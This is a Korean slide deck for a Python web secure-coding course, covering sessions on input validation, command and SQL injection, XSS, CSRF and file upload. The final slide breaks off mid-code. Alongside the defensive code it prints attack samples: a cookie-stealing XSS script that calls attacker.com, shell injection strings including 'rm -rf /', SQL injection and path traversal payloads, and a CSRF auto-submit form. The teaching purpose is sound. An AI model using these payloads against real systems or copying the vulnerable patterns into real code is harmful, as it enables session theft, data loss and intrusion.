


<!-- _class: title lead -->

# Python 시큐어코딩

## 웹 애플리케이션 보안 개발 실습 과정

### 총 12차시 | 740분

---

# 교육과정 개요

| 구분 | 내용 |
|------|------|
| 교육 목표 | Python 웹 애플리케이션 보안 취약점 이해 및 시큐어코딩 적용 |
| 교육 시간 | 총 740분 (약 12시간 20분) |
| 교육 대상 | Python 웹 개발자, 보안 담당자, 취약점 분석가 |
| 선수 지식 | Python 기초, 웹 개발 기본, Flask/Django 경험 |

---

# 차시별 구성

| 차시 | 주제 | 시간 |
|:----:|------|:----:|
| 01 | 시큐어코딩 개요 및 SW개발보안 방법론 | 80분 |
| 02 | 입력검증과 출력 인코딩 | 60분 |
| 03 | 인젝션 - 명령어 | 60분 |
| 04 | 인젝션 - SQL | 60분 |
| 05 | 크로스사이트스크립팅 (XSS) | 60분 |
| 06 | CSRF와 세션관리 | 60분 |

---

# 차시별 구성 (계속)

| 차시 | 주제 | 시간 |
|:----:|------|:----:|
| 07 | 파일업로드 및 경로조작 취약점 | 60분 |
| 08 | 직렬화/역직렬화 취약점 | 60분 |
| 09 | 인증 및 인가 | 60분 |
| 10 | 중요정보 처리 및 암호화 | 60분 |
| 11 | 에러처리/로깅 보안 | 60분 |
| 12 | 종속성 및 패키지 공급망 보안 | 60분 |

---

# 실습 환경 - 안정화 버전

| 구분 | 도구 및 버전 |
|------|-------------|
| Python | 3.12.7 (권장) |
| 프레임워크 | Flask 3.0.3 / Django 5.1.3 / FastAPI 0.115.5 |
| 데이터베이스 | SQLite 3.45 / MySQL 8.0.40 |
| 보안 도구 | Bandit 1.7.10 / Safety 3.2.9 / OWASP ZAP 2.15.0 |
| 개발 도구 | VS Code + Python Extension |
| 컨테이너 | Docker Desktop 4.36+ |

---

# Docker 환경 구성

```bash
# 프로젝트 디렉토리 생성
mkdir python-secure-coding-lab && cd python-secure-coding-lab

# Docker Compose 실행
docker-compose up -d --build

# 컨테이너 접속
docker exec -it python-secure-coding bash

# 보안 도구 확인
bandit --version && safety --version
```

---

<!-- _class: section-break lead -->

# 01차시
## 시큐어코딩 개요 및 SW개발보안 방법론
### 80분

---

# 01. 학습 목표

1. 소프트웨어 개발 보안이 필요한 이유와 최신 보안 위협의 특징을 설명할 수 있다.

2. 실제 보안 사고 사례를 통해 보안 취약점 발생 원인과 영향을 이해할 수 있다.

3. 소프트웨어 개발 보안 가이드의 핵심 원칙과 주요 취약점 유형을 이해할 수 있다.

4. 보안 코딩의 기본 개념과 개발자 역할의 중요성을 인식할 수 있다.

---

# 01. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 소프트웨어 보안 위협의 변화 | 15분 |
| 2 | 보안 사고 사례 분석 | 20분 |
| 3 | 보안 SDLC와 방법론 | 20분 |
| 4 | Python 보안 특성 | 15분 |
| 5 | 정리 및 Q&A | 10분 |

---

# 01. 왜 시큐어코딩인가?

### 소프트웨어 취약점으로 인한 피해 현황

- 2023년 전 세계 사이버 범죄 피해액: **약 8조 달러**
- 데이터 유출 사고 평균 비용: **445만 달러** (IBM, 2023)
- 취약점의 **70% 이상**이 애플리케이션 레벨에서 발생

### 왜 개발 단계에서 보안이 필요한가?

- 운영 단계 취약점 수정 비용: 설계 단계 대비 **100배**
- 보안팀만의 노력으로는 한계 존재
- 개발자가 보안의 **첫 번째 방어선**

---

# 01. 소프트웨어 보안 위협의 변화

| 구분 | 전통적 보안 | 현대적 보안 |
|------|-------------|-------------|
| 대상 | 네트워크, 인프라 | 애플리케이션, API |
| 공격 방식 | 단순 침입 | 취약점 익스플로잇 |
| 방어 시점 | 배포 이후 | 개발 단계 |
| 책임 주체 | 보안팀 | 개발팀 + 보안팀 |
| 도구 | 방화벽, IDS | SAST, DAST, SCA |

> **Shift Left**: 보안을 개발 초기 단계(왼쪽)로 이동

---

# 01. AI Coding 시대의 보안 고려사항

### AI 코딩 도구 활용 증가

- Cursor AI, GitHub Copilot, ChatGPT 등 AI 코딩 도구 급증
- 개발 생산성 향상 vs **새로운 보안 위협** 등장

### 주요 보안 이슈

| 이슈 | 설명 |
|------|------|
| 취약한 코드 생성 | 학습 데이터의 취약한 패턴 재생산 |
| OSS 라이선스 위반 | 생성 코드의 저작권/라이선스 불명확 |
| 검증 부재 | AI 생성 코드의 무분별한 사용 |

### 안전한 AI Coding Prompting

- 보안 요구사항을 명시한 프롬프트 작성 (예: "SQL Injection 방지 코드 작성")
- 생성된 코드의 **보안 검토 필수화**
- 시큐어코딩 가이드라인 준수 요청 포함

---

# 01. 개발 단계별 취약점 수정 비용



> 결론: 취약점은 **발견 시점이 빠를수록** 수정 비용이 낮아진다

---

# 01. 보안 사고 사례 (1) - SQL Injection

### 2017년 Equifax 개인정보 유출 사건

**피해 규모:**
- 유출 건수: 1억 4,300만 건
- 피해 보상금: 7억 달러 이상
- 주가 하락: 30% 이상

**원인:**

```python
# 취약한 코드
query = f"SELECT * FROM users WHERE id='{user_id}'"
```

Apache Struts 프레임워크 취약점 + SQL Injection

---

# 01. 보안 사고 사례 (2) - 공급망 공격

### 2020년 SolarWinds 사건

**피해 규모:**
- 영향 받은 기관: 18,000개 이상
- 미국 정부 기관 다수 포함
- 탐지까지 소요 시간: 약 9개월

**원인:**
- 빌드 시스템에 악성코드 삽입
- 정상 업데이트로 위장하여 배포
- 서명된 패키지로 신뢰 우회

---

# 01. OWASP Top 10 (2021)

| 순위 | 취약점 | 설명 |
|:----:|--------|------|
| 1 | Broken Access Control | 접근 제어 실패 |
| 2 | Cryptographic Failures | 암호화 실패 |
| 3 | Injection | SQL, Command 인젝션 |
| 4 | Insecure Design | 안전하지 않은 설계 |
| 5 | Security Misconfiguration | 보안 설정 오류 |
| 6 | Vulnerable Components | 취약한 컴포넌트 |
| 7 | Auth Failures | 인증 실패 |
| 8 | Data Integrity Failures | 무결성 실패 |
| 9 | Logging Failures | 로깅 실패 |
| 10 | SSRF | 서버 측 요청 위조 |

---

# 01. 보안 SDLC 개요



### 단계별 보안 활동

- **요구사항**: 보안 요구사항 정의, 위험 평가
- **설계**: 위협 모델링, 보안 아키텍처
- **구현**: 시큐어코딩, 코드 리뷰
- **테스트**: SAST, DAST, 침투 테스트
- **배포**: 보안 설정 검증, 모니터링

---

# 01. Python 생태계 보안 특성

| 특성 | 보안 이슈 | 대응 방안 |
|------|-----------|----------|
| 동적 타입 | 타입 검증 누락 | 타입 힌트, Pydantic |
| eval/exec | 코드 인젝션 | 사용 금지, 대안 사용 |
| pickle | RCE 취약점 | JSON 사용 |
| pip 패키지 | 공급망 공격 | 버전 고정, 해시 검증 |

```python
# 위험한 코드 패턴
eval(user_input)       # 코드 인젝션
pickle.loads(data)     # 원격 코드 실행
os.system(cmd)         # 명령어 인젝션
```

---

# 01. 시큐어코딩 7대 원칙

| 번호 | 원칙 | 설명 |
|:----:|------|------|
| 1 | 입력값 검증 | 모든 입력은 잠재적 공격 |
| 2 | 출력 인코딩 | 컨텍스트에 맞는 인코딩 |
| 3 | 인증 및 인가 | 강력한 신원 확인과 권한 검증 |
| 4 | 세션 관리 | 안전한 세션 생성/유지/종료 |
| 5 | 암호화 | 민감 데이터 보호 |
| 6 | 에러 처리 | 정보 노출 방지 |
| 7 | 로깅 | 보안 이벤트 기록 |

---

# 01. 실습 환경 확인

```bash
# 컨테이너 접속
docker exec -it python-secure-coding bash

# Python 버전 확인
python --version  # Python 3.12.7

# 보안 도구 확인
bandit --version  # 1.7.10
safety --version  # 3.2.9

# 프레임워크 확인
pip show flask django fastapi
```

---

# 01. 정리 - 핵심 포인트

1. **보안 위협 변화**: 네트워크 → 애플리케이션으로 공격 대상 이동
2. **Shift Left**: 개발 초기 단계에서 보안 적용이 비용 효율적
3. **실제 사례**: SQL Injection, 공급망 공격으로 수억 달러 피해
4. **OWASP Top 10**: 웹 애플리케이션 10대 취약점 인식
5. **Python 특성**: eval/exec, pickle 등 주의 필요
6. **시큐어코딩 원칙**: 입력 검증, 출력 인코딩 등 7대 원칙

---

# 01. 확인 문제

1. Shift Left 보안이란 무엇이며, 왜 중요한가요?

2. OWASP Top 10 중 가장 위험한 취약점 3가지는?

3. Python에서 사용을 피해야 할 위험 함수 3가지는?

4. 운영 단계에서 취약점 수정 비용이 설계 단계 대비 몇 배?
---

<!-- _class: section-break lead -->

# 02차시
## 입력검증과 출력 인코딩
### 60분

---

# 02. 학습 목표

1. 입력값 검증의 필요성과 검증 실패로 인한 보안 취약점을 설명할 수 있다.

2. 문자열 검증, 정규표현식, 경계값 검사, 타입 검사 기법을 이해하고 적용할 수 있다.

3. 출력 인코딩의 개념과 안전한 출력값 생성 방법을 구현할 수 있다.

4. Python에서 입력 검증 및 출력 인코딩 라이브러리를 활용할 수 있다.

---

# 02. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 입력값 검증 개요 | 10분 |
| 2 | 검증 기법 (화이트리스트, 정규식, 타입) | 15분 |
| 3 | 출력 인코딩 | 10분 |
| 4 | 실습: 입력 검증 구현 | 20분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 02. 입력값 검증이 필요한 이유

### 신뢰할 수 없는 입력 소스

- URL 파라미터, POST 데이터
- HTTP 헤더, 쿠키
- 파일 업로드, API 요청 본문
- 데이터베이스 조회 결과 (이미 오염된 경우)

> **원칙:** 모든 입력은 악의적일 수 있다고 가정한다

### 검증 실패 시 발생 가능한 취약점

SQL Injection, Command Injection, XSS, Path Traversal 등

---

# 02. 입력값 검증 원칙

### 화이트리스트 vs 블랙리스트

| 방식 | 설명 | 권장 |
|------|------|:----:|
| **화이트리스트** | 허용된 값만 통과 | O |
| **블랙리스트** | 금지된 값만 차단 | X |

```python
# 화이트리스트 (권장)
ALLOWED = {'png', 'jpg', 'gif'}
if ext in ALLOWED: process()

# 블랙리스트 (비권장 - 우회 가능)
BLOCKED = {'exe', 'bat'}
if ext not in BLOCKED: process()  # php, jsp 우회 가능
```

---

# 02. 정규표현식 검증

```python
import re

def validate_email(email: str) -> bool:
    """이메일 형식 검증"""
    pattern = r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'
    return bool(re.match(pattern, email))

def validate_phone_korea(phone: str) -> bool:
    """한국 전화번호 검증"""
    pattern = r'^01[0-9]-?[0-9]{3,4}-?[0-9]{4}$'
    return bool(re.match(pattern, phone))

def validate_password_strength(password: str) -> bool:
    """비밀번호 강도 검증"""
    if len(password) < 8: return False
    if not re.search(r'[A-Z]', password): return False
    if not re.search(r'[a-z]', password): return False
    if not re.search(r'[0-9]', password): return False
    return True
```

---

# 02. 타입 검사 - Pydantic 활용

```python
from pydantic import BaseModel, Field, validator, EmailStr

class UserRegistration(BaseModel):
    username: str = Field(..., min_length=3, max_length=20)
    email: EmailStr
    age: int = Field(..., ge=0, le=150)
    
    @validator('username')
    def username_alphanumeric(cls, v):
        if not v.isalnum():
            raise ValueError('영문자와 숫자만 허용됩니다')
        return v

# 사용
try:
    user = UserRegistration(username="john123", email="john@example.com", age=25)
except ValidationError as e:
    print(e.errors())
```

---

# 02. 출력 인코딩

### HTML 인코딩

```python
from markupsafe import escape

user_input = '<script>alert("XSS")</script>'

# 안전한 출력
safe_output = escape(user_input)
# 결과: &lt;script&gt;alert("XSS")&lt;/script&gt;
```

### URL 인코딩

```python
from urllib.parse import quote, urlencode

# 단일 값
encoded = quote("검색어 with spaces")

# 딕셔너리
params = {'query': '검색어', 'page': 1}
query_string = urlencode(params)
```

---

# 02. Flask 템플릿 자동 이스케이핑

```python
from flask import Flask, render_template

app = Flask(__name__)
app.jinja_env.autoescape = True  # 기본값
```

```html
<!-- 템플릿 -->
<h1>{{ user_input }}</h1>           <!-- 자동 이스케이핑 -->
<h1>{{ user_input | safe }}</h1>    <!-- 이스케이핑 비활성화 (주의!) -->
```

> **주의:** `| safe` 필터는 신뢰할 수 있는 데이터에만 사용

---

# 02. 실습: 회원가입 폼 검증

### 검증 요구사항

| 필드 | 조건 |
|------|------|
| username | 3-20자, 영문자/숫자만 |
| email | 이메일 형식 |
| password | 8자 이상, 대소문자/숫자/특수문자 |
| age | 0-150 범위 |

### 실습 파일

```bash
cd /app/labs/02_input_validation
python app.py
```

---

# 02. 정리 - 핵심 포인트

### 입력값 검증
1. **모든 입력은 신뢰하지 않는다**
2. **화이트리스트 방식 사용**
3. **서버에서 반드시 검증**
4. **Pydantic으로 타입 안전성 확보**

### 출력 인코딩
1. **컨텍스트에 맞는 인코딩** (HTML, URL, JSON)
2. **프레임워크 자동 이스케이핑 활용**
3. **`| safe` 필터 최소화**

---

# 02. 확인 문제

1. 화이트리스트와 블랙리스트 검증의 차이점은?

2. 클라이언트 검증만으로 충분하지 않은 이유는?

3. HTML 컨텍스트에서 `<` 문자는 어떻게 인코딩되나요?

4. Pydantic의 `@validator` 데코레이터 용도는?

---

<!-- _class: section-break lead -->

# 03차시
## 인젝션 - 명령어
### 60분

---

# 03. 학습 목표

1. 명령어 인젝션 취약점의 발생 원리와 위험성을 설명할 수 있다.

2. subprocess, os.system 등 시스템 명령 실행 함수의 보안 취약점을 이해할 수 있다.

3. 명령어 인젝션 보안약점을 진단하고 식별할 수 있다.

4. 안전한 시스템 명령 실행을 위한 시큐어코딩 기법을 적용할 수 있다.

---

# 03. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 명령어 인젝션 개요 | 10분 |
| 2 | 취약한 코드 분석 | 15분 |
| 3 | 안전한 코드 작성 | 15분 |
| 4 | 실습: 취약점 진단 및 수정 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 03. 명령어 인젝션이란?

사용자 입력이 시스템 명령어의 일부로 실행되어 **의도하지 않은 명령이 실행**되는 취약점

### 쉘 메타문자

| 문자 | 의미 | 공격 예시 |
|------|------|----------|
| `;` | 명령 구분 | `; cat /etc/passwd` |
| `\|` | 파이프 | `\| cat /etc/passwd` |
| `&&` | AND 연결 | `&& rm -rf /` |
| `$()` | 명령 치환 | `$(whoami)` |

---

# 03. 취약한 코드 예시

```python
import os

def ping_host(hostname):
    # 취약한 코드
    os.system(f"ping -c 3 {hostname}")

# 정상 사용
ping_host("google.com")
# 실행: ping -c 3 google.com

# 공격 입력
ping_host("google.com; cat /etc/passwd")
# 실행: ping -c 3 google.com; cat /etc/passwd
# → /etc/passwd 파일 내용 노출!
```

---

# 03. Python 위험 함수 목록

| 함수 | 위험도 | 대안 |
|------|:------:|------|
| `os.system()` | 높음 | subprocess (shell=False) |
| `os.popen()` | 높음 | subprocess (shell=False) |
| `subprocess.call(shell=True)` | 높음 | shell=False |
| `eval()` | 높음 | ast.literal_eval |
| `exec()` | 높음 | 제한된 환경 |

---

# 03. 안전한 명령 실행

```python
import subprocess

def safe_ping(hostname: str) -> str:
    # 1. 입력값 검증
    if not hostname.replace('.', '').replace('-', '').isalnum():
        raise ValueError("유효하지 않은 호스트명")
    
    # 2. shell=False, 인자를 리스트로 전달
    result = subprocess.run(
        ["ping", "-c", "3", hostname],
        capture_output=True,
        text=True,
        timeout=30
    )
    return result.stdout
```

> **핵심:** shell=False + 리스트 인자 + 입력 검증

---

# 03. Bandit을 이용한 취약점 진단

```bash
# Bandit 실행
bandit -r ./src -f html -o report.html

# 결과 예시
>> Issue: [B602:subprocess_popen_with_shell_equals_true]
   Severity: High   Confidence: High
   Location: ./src/utils.py:15
   
   subprocess call with shell=True identified
```

---

# 03. 실습: 취약점 진단 및 수정

```bash
# 실습 디렉토리 이동
cd /app/labs/03_command_injection

# Bandit으로 진단
bandit vulnerable_app.py

# 취약한 앱 실행 및 테스트
python vulnerable_app.py
```

### 실습 목표
1. Bandit으로 취약점 식별
2. 취약점 원인 분석
3. 안전한 코드로 수정
4. 수정 후 재검사

---

# 03. 정리 - 핵심 포인트

1. **os.system(), os.popen() 사용 금지**
2. **subprocess 사용 시 shell=False 필수**
3. **명령어 인자는 리스트로 전달**
4. **사용자 입력 화이트리스트 검증**
5. **가능하면 Python 라이브러리로 대체**
6. **eval/exec 사용 금지**
7. **Bandit으로 정기 검사**

---

# 03. 확인 문제

1. 명령어 인젝션에 사용되는 쉘 메타문자 3가지는?

2. subprocess.run() 안전 사용을 위한 필수 옵션은?

3. eval() 함수의 안전한 대안은?

4. Bandit B602 경고의 원인은?

---

<!-- _class: section-break lead -->

# 04차시
## 인젝션 - SQL
### 60분

---

# 04. 학습 목표

1. SQL 인젝션 취약점의 발생 원리와 공격 유형을 설명할 수 있다.

2. Python DB-API와 ORM을 활용한 안전한 데이터베이스 접근 방법을 이해할 수 있다.

3. 파라미터 바인딩을 통한 안전한 쿼리 처리 기법을 적용할 수 있다.

4. RAW SQL 사용 시 보안 주의사항을 인식하고 준수할 수 있다.

---

# 04. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | SQL Injection 개요 | 10분 |
| 2 | 공격 유형별 분석 | 15분 |
| 3 | 안전한 쿼리 작성 | 15분 |
| 4 | 실습: 취약점 분석 및 수정 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 04. SQL Injection 공격 원리

```python
# 취약한 코드
def login(username, password):
    query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    cursor.execute(query)
```

### 공격 시나리오

| 입력값 | 결과 |
|--------|------|
| `admin'--` | 비밀번호 검증 우회 |
| `' OR '1'='1` | 전체 레코드 조회 |
| `'; DROP TABLE users;--` | 테이블 삭제 |

---

# 04. SQL Injection 공격 유형

| 유형 | 설명 | 탐지 |
|------|------|:----:|
| In-band (Classic) | 결과가 직접 표시 | 쉬움 |
| Error-based | 에러로 정보 추출 | 쉬움 |
| Union-based | UNION으로 다른 테이블 조회 | 중간 |
| Blind (Boolean) | 참/거짓 응답 차이 | 어려움 |
| Blind (Time) | 응답 시간 차이 | 어려움 |

---

# 04. 파라미터 바인딩

```python
import sqlite3

# 안전한 코드 - 파라미터 바인딩
def safe_login(username: str, password: str):
    conn = sqlite3.connect('app.db')
    cursor = conn.cursor()
    
    # ? 플레이스홀더 사용
    cursor.execute(
        "SELECT * FROM users WHERE username=? AND password=?",
        (username, password)
    )
    return cursor.fetchone()
```

> 사용자 입력이 SQL 구문으로 해석되지 않음

---

# 04. SQLAlchemy ORM

```python
from sqlalchemy import text
from sqlalchemy.orm import Session

# ORM 사용 - 자동 이스케이핑
def get_user(session: Session, username: str):
    return session.query(User).filter(User.username == username).first()

# RAW SQL 사용 시 바인딩
def raw_query(session: Session, username: str):
    result = session.execute(
        text("SELECT * FROM users WHERE username = :name"),
        {"name": username}
    )
    return result.fetchall()
```

---

# 04. Django ORM

```python
from django.db.models import Q

# 안전한 ORM 사용
User.objects.filter(username=username)
User.objects.filter(Q(username=username) | Q(email=email))

# raw() 사용 시 파라미터화 필수
User.objects.raw(
    "SELECT * FROM auth_user WHERE username = %s", 
    [username]
)

# 위험: 문자열 포맷팅 사용 금지
User.objects.raw(f"SELECT * FROM auth_user WHERE username = '{username}'")
```

---

# 04. 실습: SQL Injection 분석

```bash
# 실습 디렉토리 이동
cd /app/labs/04_sql_injection

# 취약한 앱 실행
python vulnerable_app.py

# 공격 테스트
curl -X POST http://localhost:5000/login \
  -d "username=admin'--&password=anything"
```

---

# 04. 정리 - 핵심 포인트

1. **문자열 포맷팅으로 쿼리 생성 금지**
2. **항상 파라미터 바인딩 사용**
3. **ORM 사용 권장** (SQLAlchemy, Django ORM)
4. **Raw SQL 사용 시 반드시 바인딩**
5. **입력값 추가 검증** (길이, 패턴)
6. **데이터베이스 최소 권한 원칙**
7. **에러 메시지에 쿼리 정보 노출 금지**

---

# 04. 확인 문제

1. SQL Injection 주요 공격 유형 3가지는?

2. 파라미터 바인딩이 안전한 이유는?

3. Django ORM에서 raw() 안전 사용법은?

4. `admin'--` 페이로드의 효과는?
---

<!-- _class: section-break lead -->

# 05차시
## 크로스사이트스크립팅 (XSS)
### 60분

---

# 05. 학습 목표

1. XSS 취약점의 유형(Stored, Reflected, DOM-based)과 공격 원리를 설명할 수 있다.

2. 템플릿 엔진에서 발생하는 XSS 위험 요소를 식별할 수 있다.

3. 안전한 템플릿 패턴과 자동 이스케이핑 기능을 이해하고 적용할 수 있다.

4. Flask/Django 프레임워크에서 XSS 방어 기법을 구현할 수 있다.

---

# 05. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | XSS 개요 및 유형 | 10분 |
| 2 | 공격 시나리오 분석 | 15분 |
| 3 | 방어 기법 구현 | 15분 |
| 4 | 실습: XSS 취약점 수정 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 05. XSS 유형

| 유형 | 저장 위치 | 지속성 | 공격 범위 |
|------|----------|:------:|----------|
| **Stored XSS** | 서버 DB | 영구적 | 모든 방문자 |
| **Reflected XSS** | URL 파라미터 | 일시적 | 링크 클릭자 |
| **DOM-based XSS** | 클라이언트 | 일시적 | 링크 클릭자 |

### 영향

- 세션 탈취, 키로깅, 피싱, 악성코드 배포

---

# 05. Stored XSS 공격

```html
<!-- 공격자가 게시글에 삽입 -->
<script>
new Image().src='http://attacker.com/steal?c='+document.cookie
</script>

<!-- 피해자가 게시글 조회 시 쿠키 탈취 -->
```

### 공격 흐름
1. 공격자: 악성 스크립트 포함 게시글 작성
2. 서버: DB에 저장
3. 피해자: 게시글 조회 시 스크립트 실행
4. 결과: 쿠키/세션 탈취

---

# 05. 방어 기법 (1) - 출력 인코딩

```python
from markupsafe import escape

user_input = '<script>alert("XSS")</script>'
safe_output = escape(user_input)
# &lt;script&gt;alert("XSS")&lt;/script&gt;
```

### Jinja2 템플릿

```html
{{ user_input }}           <!-- 자동 이스케이핑 -->
{{ user_input | safe }}    <!-- 주의: 이스케이핑 비활성화 -->
```

---

# 05. 방어 기법 (2) - CSP 헤더

```python
@app.after_request
def add_security_headers(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self'; "
        "style-src 'self' 'unsafe-inline'; "
    )
    response.headers['X-XSS-Protection'] = '1; mode=block'
    response.headers['X-Content-Type-Options'] = 'nosniff'
    return response
```

---

# 05. 방어 기법 (3) - HTTPOnly 쿠키

```python
from flask import Flask

app = Flask(__name__)
app.config.update(
    SESSION_COOKIE_HTTPONLY=True,   # JS 접근 차단
    SESSION_COOKIE_SECURE=True,     # HTTPS만
    SESSION_COOKIE_SAMESITE='Lax',  # CSRF 방어
)
```

> HTTPOnly: JavaScript에서 쿠키 접근 불가 → 세션 탈취 방지

---

# 05. 실습: XSS 취약점 수정

```bash
cd /app/labs/05_xss
python vulnerable_app.py
```

### 테스트 페이로드
```html
<script>alert('XSS')</script>

<svg onload=alert('XSS')>
```

---

# 05. 정리 - 핵심 포인트

1. **출력 시 반드시 인코딩**
2. **템플릿 자동 이스케이핑 활성화**
3. **`| safe` 필터 최소화**
4. **CSP 헤더 적용**
5. **HTTPOnly 쿠키 설정**
6. **innerHTML 대신 textContent 사용**

---

# 05. 확인 문제

1. Stored XSS와 Reflected XSS 차이는?

2. CSP 헤더에서 `script-src 'self'` 의미는?

3. Jinja2에서 `| safe` 사용 시 주의점은?

4. HTTPOnly 쿠키가 XSS 방어에 도움되는 이유는?

---

<!-- _class: section-break lead -->

# 06차시
## CSRF와 세션관리
### 60분

---

# 06. 학습 목표

1. CSRF 취약점의 공격 원리와 피해 시나리오를 설명할 수 있다.

2. Flask-WTF/Django의 CSRF 토큰 메커니즘을 이해할 수 있다.

3. 안전한 세션 관리 기법과 세션 하이재킹 방지 방법을 적용할 수 있다.

4. CSRF 보안약점을 진단하고 시큐어코딩으로 대응할 수 있다.

---

# 06. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | CSRF 개요 및 공격 원리 | 10분 |
| 2 | CSRF 방어 기법 | 15분 |
| 3 | 안전한 세션 관리 | 15분 |
| 4 | 실습: CSRF 토큰 구현 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 06. CSRF 공격 원리

```html
<!-- 악성 사이트의 숨겨진 폼 -->
<form action="https://bank.com/transfer" method="POST" id="csrf">
  <input name="to" value="attacker">
  <input name="amount" value="1000000">
</form>
<script>document.getElementById('csrf').submit();</script>
```

### 공격 조건
- 피해자가 대상 사이트에 **로그인된 상태**
- 피해자가 **악성 페이지 방문**
- 대상 사이트에 **CSRF 방어 없음**

---

# 06. Flask-WTF CSRF 보호

```python
from flask import Flask
from flask_wtf import FlaskForm, CSRFProtect
from wtforms import StringField

app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key'
csrf = CSRFProtect(app)

class TransferForm(FlaskForm):
    recipient = StringField('받는 사람')
    amount = StringField('금액')
```

```html
<form method="POST">
  {{ form.csrf_token }}
  {{ form.recipient() }}
  {{ form.amount() }}
</form>
```

---

# 06. Django CSRF 보호

```python
# settings.py - 기본 활성화
MIDDLEWARE = [
    'django.middleware.csrf.CsrfViewMiddleware',
]
```

```html
<form method="POST">
  
  <input type="text" name="recipient">
  <button type="submit">송금</button>
</form>
```

---

# 06. 안전한 세션 관리

```python
from flask import Flask, session
import secrets

app = Flask(__name__)
app.config.update(
    SECRET_KEY=secrets.token_hex(32),
    PERMANENT_SESSION_LIFETIME=1800,    # 30분
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax'
)

@app.route('/login', methods=['POST'])
def login():
    session.clear()  # 세션 고정 공격 방지
    session['user_id'] = user.id
    session.permanent = True
```

---

# 06. 실습: CSRF 토큰 구현

```bash
cd /app/labs/06_csrf
python vulnerable_app.py
```

### 실습 목표
1. CSRF 취약점 확인
2. Flask-WTF CSRF 보호 적용
3. AJAX 요청 CSRF 처리
4. 세션 보안 설정

---

# 06. 정리 - 핵심 포인트

### CSRF 방어
1. **모든 상태 변경 요청에 CSRF 토큰**
2. **SameSite 쿠키 설정** (Lax 이상)
3. **AJAX에도 토큰 포함**

### 세션 보안
1. **로그인 시 세션 재생성**
2. **적절한 타임아웃**
3. **HTTPOnly, Secure, SameSite 쿠키**

---

# 06. 확인 문제

1. CSRF와 XSS의 주요 차이점은?

2. CSRF 토큰 작동 원리는?

3. SameSite 쿠키 Lax와 Strict 차이는?

4. 세션 고정 공격 방어 방법은?

---

<!-- _class: section-break lead -->

# 07차시
## 파일업로드 및 경로조작 취약점
### 60분

---

# 07. 학습 목표

1. 파일 업로드/다운로드 취약점의 발생 원리와 위험성을 설명할 수 있다.

2. 경로 조작(Path Traversal) 공격 기법을 이해하고 식별할 수 있다.

3. 안전한 파일 처리를 위한 검증 기법을 적용할 수 있다.

4. 파일 업로드 보안약점을 진단하고 시큐어코딩으로 대응할 수 있다.

---

# 07. 이번 차시 구성

| 순서 | 내용 | 시간 |
|:----:|------|:----:|
| 1 | 파일 업로드 취약점 개요 | 10분 |
| 2 | 경로 조작 공격 | 10분 |
| 3 | 안전한 파일 처리 구현 | 20분 |
| 4 | 실습: 파일 업로드 보안 | 15분 |
| 5 | 정리 및 Q&A | 5분 |

---

# 07. 파일 업로드 취약점

| 공격 유형 | 설명 | 영향 |
|----------|------|------|
| 웹쉘 업로드 | 실행 가능 스크립트 | 서버 장악 |
| 확장자 우회 | .jpg.php 등 | 악성코드 실행 |
| Content-Type 위조 | MIME 타입 조작 | 검증 우회 |
| 대용량 파일 | DoS 공격 | 서비스 중단 |

---

# 07. 경로 조작 (Path Traversal)

```python
# 취약한 코드
@app.route('/download')
def download():
    filename = request.args.get('file')
    return send_file(f'/uploads/{filename}')

# 공격
# /download?file=../../../etc/passwd
# → /uploads/../../../etc/passwd → /etc/passwd
```

### 우회 시도
```
../../../etc/passwd
..%2f..%2f..%2fetc%2fpasswd
....//....//....//etc/passwd
```

---

# 07. 안전한 파일 업로드

```python
import os, uuid
from pathlib import Path
from werkzeug.utils import secure_filename

ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf'}
UPLOAD_DIR = Path('/app/uploads').resolve()

def save_file(file):
    # 1. 확장자 검증
    ext = secure_filename(file.filename).rsplit('.', 1)[1].lower()
